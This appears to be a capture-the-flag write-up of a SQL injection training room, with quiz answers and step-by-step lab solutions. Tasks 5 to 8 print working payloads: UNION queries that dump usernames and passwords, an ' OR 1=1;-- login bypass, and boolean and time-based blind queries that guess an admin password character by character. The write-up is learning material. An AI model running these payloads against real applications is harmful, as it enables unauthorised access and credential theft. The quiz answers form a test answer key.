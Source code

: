 # SQL Injection

Learn how to detect and exploit SQL Injection vulnerabilities.

Nov 23, 2021

#### `Task 1: Brief`
##### - What does SQL stand for?
	- Structured Query Language
	
#### `Task 2: What is a Database?`
##### - What is the acronym for the software that controls a database?
	- DBMS
	
##### - What is the name of the grid-like structure which holds the data?
	- Table
	
#### `Task 3: What is SQL?`
##### - What SQL statement is used to retrieve data?
	- SELECT
	
##### - What SQL clause can be used to retrieve data from multiple tables?
	- UNION
	
##### - What SQL statement is used to add data?
	- INSERT

#### `Task 4: What is SQL Injection?`
##### - What character signifies the end of an SQL query?
	- ;

#### `Task 5: In-Band SQLi?`
Deploy the machine, then use the given commands by inserting it next to the last parameter.
This will give you the database, then use the next one 
```
0 UNION SELECT 1,2,database()
```
This will show the different table name in the sqli_one database
```
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```
This will show you the diffent column name in the table
```
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```
This will display the contents of that column
```
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
By doing the steps above you will be able to find the username and password, then you can proceed inputting it in the login form and you will get the flag in the next page.

#### `Task 6: Blind SQLi - Authentication Bypass`
The next one is basically bypassing the authentication with the help of simple SQL injection,
In the login form you can basically input any username you want but in the password section I used- 
```
' OR 1=1;--
```
This means that the server will receive the payload as an true statement and will proceed to login the account.

#### `Task 7: Blind SQLi - Boolean Based`
This task will have an indicator when the characters that are being type are equal to the actual name of the database,table or column.
When the application will return true that means that you are typing the correct character or number. 

Firstly, we will use this code and it will return true since there are three columns in that table.
```
admin123' UNION SELECT 1,2,3;-- 
```
Then, we will guess for the correct database name for us to exploit the database.
```
admin123' UNION SELECT 1,2,3 where database() like 's%';--
admin123' UNION SELECT 1,2,3 where database() like 'sq%';--
admin123' UNION SELECT 1,2,3 where database() like 'sql%';--
```
By doing this cycle as much as possible the indicator will return true, so that we will know if we are getting the exact name for the database.
Then after we get the actual name of the database we will now search for the table name.
```
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'u%';--
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'us%';--
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'use%';--
```
After that we will now proceed getting the column name.
```
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'id%';--
```
But we did find the other column name that is `id` and it is just basically nonsense for us so we will ignore it and continue finding other column name.
```
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'userna%' and COLUMN_NAME !='id';--
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'passwo%' and COLUMN_NAME !='id';--
```
After we find the two column name that seems valuable to us which is `username` and `password` then we will now proceed to find the row or data in that column.
```
admin123' UNION SELECT 1,2,3 from users where username like 'a%';--
admin123' UNION SELECT 1,2,3 from users where username like 'ad%';--
admin123' UNION SELECT 1,2,3 from users where username like 'adm%';--
```
Then for the password-
```
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '3%';--
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '38%';--
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '384%';--
```

#### `Task 8: Blind SQLi - Time Based`
This is the same as the previous task but instead it will use the time to indicate that you are getting the exact characters for the actual name in the database.
First, we will test the application by using this code-
```
admin123' UNION SELECT SLEEP(5),2;--
```
After we know that the SLEEP command works, it represents that it is vulnerable to that attack.
```
referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 's%';--
referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'sq%';--
referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'sql%';--
```
Then after several try I found that the database name is `sqli_four`, then we will continue finding the table name.
Actually I just used the same command from previous task but just changing some code in there.
```
admin123' UNION SELECT SLEEP(2),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name like 'us%';--
admin123' UNION SELECT SLEEP(2),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name like 'use%';--
```
Then I found that the table name is `users` and by knowing that we can now proceed to find the columns in that table.
Again, I used the same command from the previous task just doing some modifications.
```
admin123' UNION SELECT SLEEP(2),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'user%' and COLUMN_NAME !='id';--
admin123' UNION SELECT SLEEP(2),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'userna%' and COLUMN_NAME !='id';--
admin123' UNION SELECT SLEEP(2),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'passw%' and COLUMN_NAME !='id';--
admin123' UNION SELECT SLEEP(2),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'passwor%' and COLUMN_NAME !='id';--
```
We now know that in the `users` table we have `username` and `password` column sitting in there.
Then, we will now find the actual row or data that the columns contain.
```
admin123' UNION SELECT 1,2,3 from users where username like 'a%';--
admin123' UNION SELECT 1,2,3 from users where username like 'adm%';--
```
Then
```
admin123' UNION SELECT SLEEP(2),2 from users where username ='admin' and password like '4%';--
admin123' UNION SELECT SLEEP(2),2 from users where username ='admin' and password like '4%1';--
admin123' UNION SELECT SLEEP(2),2 from users where username ='admin' and password like '49%1';--
```
After a few try we now know the correct username and password. `admin:4961`

#### `Task 9: Out-of-Band SQLi`
##### - Name a protocol beginning with D that can be used to exfiltrate data from a database.
	- DNS

#### `Task 10: Remediation`
##### - Name a method of protecting yourself from an SQL Injection exploit.
	- Prepared Statements
